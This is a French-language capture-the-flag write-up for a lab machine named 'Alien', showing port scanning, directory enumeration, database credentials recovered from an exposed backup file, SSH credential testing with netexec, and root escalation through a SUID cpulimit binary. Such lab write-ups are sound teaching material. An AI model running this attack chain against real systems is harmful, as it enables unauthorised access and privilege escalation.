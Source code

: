 # Alien
1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.207
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.207...100%
[+] Scan Nmap 192.168.56.207...100%
 
[+] 9000/tcp open
[+] 22/tcp open
[+] 80/tcp open
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/m0rph3u5/Massap/192.168.56.207-tcp.html     |
==========================================================
```

&nbsp;

**<span style="color: #dddddd;">👊</span> Gobuster**

Allons voir les `dir` cacher

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $gobuster dir -u http://192.168.56.207/ -w /usr/share/wordlists/dirb/big.txt -x html,php,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.207/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.txt        (Status: 403) [Size: 279]
/.htaccess.php        (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd.php        (Status: 403) [Size: 279]
/.htaccess.html       (Status: 403) [Size: 279]
/.htpasswd.txt        (Status: 403) [Size: 279]
/.htaccess.bak        (Status: 403) [Size: 279]
/.htpasswd.html       (Status: 403) [Size: 279]
/.htpasswd.bak        (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/backup               (Status: 301) [Size: 317] [--> http://192.168.56.207/backup/]
/favicon.ico          (Status: 200) [Size: 17726]
/game.html            (Status: 200) [Size: 701]
/images               (Status: 301) [Size: 317] [--> http://192.168.56.207/images/]
/index.html           (Status: 200) [Size: 2225]
/server-status        (Status: 403) [Size: 279]
Progress: 102345 / 102350 (100.00%)
===============================================================
Finished
===============================================================
```

&nbsp;

**<span style="color: #dddddd;">🌍</span> Curl**

`Backup` a l’air intéressant allons voir ça

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $curl http://192.168.56.207/backup/mysql.bak
#!/bin/bash

# Specify which database is to be backed up
db_name=""

# Set the website which this database relates to
website="localhost"

# Database credentials
user="vishal"
password="hacksudo"
host="localhost"

# How many days would you like to keep files for?
days="30"

######################################################
##### EDITING BELOW MAY CAUSE UNEXPECTED RESULTS #####
######################################################

# Set the date
date=$(date +"%Y%m%d-%H%M")

# Set the location of where backups will be stored
backup_location="/var/backups/mysql"

# Create the directory for the website if it doesn't already exist
mkdir -p ${backup_location}/${website}
# Append the database name with the date to the backup location
backup_full_name="${backup_location}/${website}/${db_name}-${date}.sql"

# Set default file permissions
umask 177

# Dump database into SQL file
mysqldump --lock-tables --user=$user --password=$password --host=$host $db_name > $backup_full_name

# Set a value to be used to find all backups with the same name
find_backup_name="${backup_location}/${website}/${db_name}-*.sql"
# Delete files older than the number of days defined
find $find_backup_name -mtime +$days -type f -delete
```

&nbsp;

Dump des hash utilisateur de `mysql` avec les cred trouver précédemment

![dtatabase.png](../../_resources/dtatabase.png)

&nbsp;

**<span style="color: #dddddd;">🖥️</span> Netexec**

Apres avoir réussi a recuperer les hash des user de la base SQL précédemment , j’ai les ai ensuite cracker pour tester les cred en `SSH`

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $nxc ssh 192.168.56.207 -u user.txt -p password.txt --no-bruteforce
SSH         192.168.56.207  22     192.168.56.207   [*] SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
SSH         192.168.56.207  22     192.168.56.207   [-] phpmyadmin:root
SSH         192.168.56.207  22     192.168.56.207   [-] shovon:123
SSH         192.168.56.207  22     192.168.56.207   [+] hacksudo:aliens  Linux - Shell access!
```

&nbsp;

**<span style="color: #dddddd;">🤖</span> Linpeas**

Voyons ce qu’on trouve d’intéressant

```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strace Not Found
You can write SUID file: /home/hacksudo/Downloads/cpulimit


```

&nbsp;

<span style="color: #dddddd;">⚙️</span> GTFObin

Linpeas nous a indiquer précédemment qu’avec le binaire `cpuilimit` nous pouvons être `root`

![Capture du 2025-04-21 18-33-29.png](../../_resources/Capture%20du%202025-04-21%2018-33-29.png)

&nbsp;

Élévation de privilège avec le binaire `cpulimit`

```
hacksudo@hacksudo:~/Downloads$ ./cpulimit -l 100 -f -- /bin/bash -p
Process 23526 detected
bash-5.0#
```

&nbsp;

Identifiant trouver

| User | Password |
| --- | --- |
| hacksudo | aliens |

&nbsp;
